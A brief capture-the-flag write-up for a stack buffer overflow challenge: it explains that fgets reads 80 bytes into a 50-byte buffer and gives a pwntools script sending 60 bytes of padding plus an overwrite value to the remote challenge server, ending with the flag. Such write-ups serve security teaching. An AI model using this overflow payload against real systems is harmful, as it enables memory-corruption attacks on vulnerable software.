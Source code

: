 # Description:

Tell me your favorite number and I might give you the flag ;).

```
nc chall.pwnoh.io 13372
```

# Solution
 char buf[50] has 50 byte but fgets(buf, 0x50, stdin) can  read 80 byte, so that is buffer overflow. We just need to calculate or try, a suitable offset number to get the flag.
```
from pwn import *

#p = process('./buffer')
#elf = ELF('./buffer')
p = remote('chall.pwnoh.io', 13372)
res = p.recvuntil(':')
print(res)
offset = 60
payload = b'a' * offset + p64(0x45454545)
p.sendline(payload)

p.interactive()
```

> bctf{wHy_WriTe_OveR_mY_V@lUeS}
